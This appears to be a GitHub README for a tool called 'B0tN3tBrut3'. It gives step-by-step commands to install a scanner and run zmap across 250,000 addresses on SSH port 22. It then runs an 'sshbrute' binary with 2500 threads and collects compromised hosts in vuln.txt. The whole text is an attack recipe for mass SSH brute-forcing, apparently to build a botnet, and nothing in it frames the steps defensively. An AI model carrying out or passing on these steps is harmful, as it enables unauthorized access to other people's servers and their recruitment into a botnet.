 

  (CentOS 6.9)

 
- git clone https://github.com/YourAnonXelj/B0tN3tBrut3.git



   1- sh ScannerInstall.sh         
   
   
    - if it asks for [Yes] press enter
    
    - if it asks for [autodetect] press enter


  
         2- sh CentOS_zmap_auto_install.sh

 


         3- chmod 777 * 

         4- zmap -p22 -o mfu.txt -N 250000     //-// not mfu2.txt or mfulol.txt dont change

         5-   ./sshbrute 2500 

         Result = vuln.txt

<img src="https://raw.githubusercontent.com/YourAnonXelj/B0tN3tBrut3/master/lul2.png">
